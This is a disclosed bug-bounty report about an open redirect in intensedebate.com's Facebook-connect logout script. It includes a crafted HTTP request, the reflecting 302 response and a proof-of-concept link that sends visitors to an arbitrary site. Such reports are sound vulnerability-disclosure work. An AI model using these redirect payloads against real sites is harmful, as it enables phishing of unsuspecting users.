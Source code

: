 # [intensedebate.com] Open Redirect

## Report Details
- **Report ID**: 1050193
- **URL**: https://hackerone.com/reports/1050193
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-12-03T21:57:49.391Z
- **Disclosed**: 2021-02-10T18:51:32.817Z

## Reporter
- **Username**: fuzzme
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Hello

## Summary:

I have found a Open Redirect on `https://intensedebate.com//fb-connect/logoutRedir.php?goto=`, the parameters `$_GET['goto']` is reflected to the HTTP-Header Response `Location`

HTTP Request

```
GET /fb-connect/logoutRedir.php?goto=\http://\ HTTP/1.1
Host: intensedebate.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: y=y;
Upgrade-Insecure-Requests: 1
```


HTTP Response

```
HTTP/1.1 302 Found
Server: nginx
Date: Thu, 03 Dec 2020 21:52:42 GMT
Content-Type: text/html; charset=utf-8
Connection: close
P3P: CP="NOI ADM DEV PSAi COM NAV OUR OTRo STP IND DEM"
Set-Cookie: fbName=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Set-Cookie: fbUrl=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Set-Cookie: fbPic=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Location: \http://\
Content-Length: 0
```
## POC


1) Open this following link `http://intensedebate.com//fb-connect/logoutRedir.php?goto=https://www.google.fr` and you will be redirected to google.fr


Thank you, good bye

Fuzzme.

## Impact

An attacker can use this vulnerability to redirect users to other malicious websites, which can be used for phishing and similar attacks

## Attachments
No attachments

